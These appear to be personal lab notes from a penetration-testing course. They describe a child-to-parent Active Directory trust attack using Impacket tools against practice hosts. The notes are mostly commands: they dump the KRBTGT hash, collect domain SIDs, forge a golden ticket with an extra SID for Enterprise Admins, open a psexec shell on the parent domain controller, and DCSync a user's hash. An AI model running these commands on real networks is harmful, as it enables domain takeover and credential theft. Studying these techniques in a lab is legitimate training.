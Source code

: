 # Script Kiddie
```shell-session
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

# Manual

We can also perform the attack shown in the previous section from a Linux attack host. To do so, we'll still need to gather the same bits of information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

get the NTLM hash for the account
```
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
the hash is the nthash in the format of domain\uid:rid:lmhash:nthash

get child domain sid
```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```
get enterprise admin rid
```shell-session
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
there might be a list so you take the initial domain sid and then add the last few digits according to what we find

construct golden ticket 
```shell-session
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
set env variable
```shell-session
export KRB5CCNAME=hacker.ccache 
```

connect using impacket psexec.py
```shell-session
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

```
secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross
```
do a dcsync in order to extract hashes? 
